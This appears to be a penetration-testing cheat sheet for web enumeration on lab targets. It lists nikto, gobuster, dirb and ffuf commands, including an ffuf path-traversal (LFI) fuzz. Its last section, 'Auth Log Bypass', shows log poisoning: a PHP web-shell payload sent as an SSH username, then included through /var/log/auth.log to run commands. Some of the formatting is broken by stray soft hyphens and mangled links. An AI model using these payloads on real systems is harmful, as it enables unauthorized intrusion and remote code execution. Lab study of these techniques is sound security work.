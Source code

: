 # HTTP and HTTPS

### Port 80 and 443

`nikto -h 10.10.10.10`

Dirb

[ `dirb http://10.10.10.228/`](http://10.10.10.228/portal/)

Dirbuster

Gobuster\
`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/`](http://10.10.10.237)

`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/ -t 42 -x .php,.txt`](http://10.10.10.237)

`gobuster -w /SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt vhost -u` [`http://monitors.htb`](http://monitors.htb)``\
``

To bypass if status code is 200 or 400 for all directories, use -b.\
else we can use -s to include response-codes.\
``\
`gobuster dir -u http://192.168.206.148:12380/ -w ../directory-list-2.3-medium.txt -t 32 -x .php,.txt -b 400`

FFUF\
`ffuf -w SecLis­ts/­Dis­cov­ery­/DN­S/s­ubd­oma­ins­-to­p1m­ill­ion­-50­00.txt -u` [`http:/­/un­dis­cov­ere­d.thm/`](https://cheatography.com/%22http://undiscovered.thm/%22) `-H "­Host: FUZZ.u­ndi­sco­ver­ed.t­hm­" -fc 302`

ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u "http://192.168.120.14/secret\_information/?lang=../../../../../../../FUZZ"



For .php file, try with LFI parameters. ?file=\
\
Auth Log Bypass

```
 ssh '<?php system($_GET['cmd']); ?>'@192.168.120.170
```

[http://192.168.120.80/console/file.php?file=../../../../../var/log/auth.log\&cmd=id](http://192.168.120.80/console/file.php?file=../../../../../var/log/auth.log\&cmd=id)\
